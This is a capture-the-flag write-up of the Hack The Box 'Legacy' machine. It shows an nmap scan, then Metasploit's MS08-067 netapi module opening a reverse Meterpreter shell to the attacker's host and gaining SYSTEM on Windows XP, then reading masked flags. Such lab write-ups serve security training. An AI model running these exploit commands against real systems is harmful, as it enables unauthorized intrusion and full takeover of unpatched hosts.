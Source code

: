 ```yaml
---
layout: post
title: Legacy(HTB)
categories:
  - Writeup
---
```

<br>OS Windows
<br>IP: 10.10.10.4
<br>Machine Author: ch4p

**Nmap** :-
<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -Pn 10.10.10.4

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-17 14:28 EST
<br>Nmap scan report for 10.10.10.4
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT     STATE  SERVICE       VERSION
<br><font color="BB69EC">139/tcp</font>  open   netbios-ssn   <font color="53E100">Microsoft Windows netbios-ssn</font>
<br><font color="BB69EC">445/tcp</font>  open   microsoft-ds  <font color="53E100">Microsoft Windows XP microsoft-ds</font>
<br><font color="BB69EC">3389/tcp</font> closed ms-wbt-server
<br>Service Info: OSs: Windows, <font color="53E100">Windows XP</font>; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

<br>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 55.53 seconds</p>
</div>
</font>

<br>**Vulnerabilty**:- The Target machine is running _**SMB**_ service on a windows XP machine so we can use the netapi exploit which is avaialbe on metsaploit.

<br>**Vulnerabilty Description**:- This module exploits a parsing flaw in the path canonicalization code of NetAPI32.dll through the Server Service. This module is capable of bypassing NX on some operating systems and service packs. The correct target must be used to prevent the Server Service (along with a dozen others in the same process) from crashing. Windows XP targets seem to handle multiple successful exploitation events, but 2003 targets will often crash or hang on subsequent attempts. This is just the first version of this module, full support for NX bypass on 2003, along with other platforms, is still in development.

<br>**Exploit**:- [MS08-067 Microsoft Server Service Relative Path Stack Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/windows/smb/ms08_067_netapi
<br>msf exploit(<font color="red">ms08_067_netapi</font>) > set RHOST 10.10.10.4
<br>RHOST => 10.10.10.4
<br>msf exploit(<font color="red">ms08_067_netapi</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.14.14:4444 
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Automatically detecting the target...
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
<br><font color="RoyalBlue">[*]</font> 10.10.10.4:445 - Attempting to trigger the vulnerability...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.4
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (<font color="53E100">10.10.14.14:4444 -> 10.10.10.4:1029</font>) at 2017-12-17 15:45:50 -0500

<br>meterpreter > getuid
<br>Server username: <font color="53E100">NT AUTHORITY\SYSTEM</font>
<br>meterpreter > shell
<br>Process 624 created.
<br>Channel 1 created.
<br>Microsoft Windows XP [Version 5.1.2600]
<br>(C) Copyright 1985-2001 Microsoft Corp.

<br><font color="BB69EC">C:\WINDOWS\system32></font></p>
</div>
</font>
<br>Using this exploit we got the _System Level Privilege_

<br>**Flags**:-
<font size="1">
<div style="height:150px;width:400px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<br><font color="BB69EC">C:\Documents and Settings\john\Desktop></font>type user.txt</p>
<br><font color="53E100">**********************</font>
<br><font color="BB69EC">C:\Documents and Settings\Administrator\Desktop></font>type root.txt
<br>type root.txt
<br><font color="53E100">**********************</font>
</div>
</font>

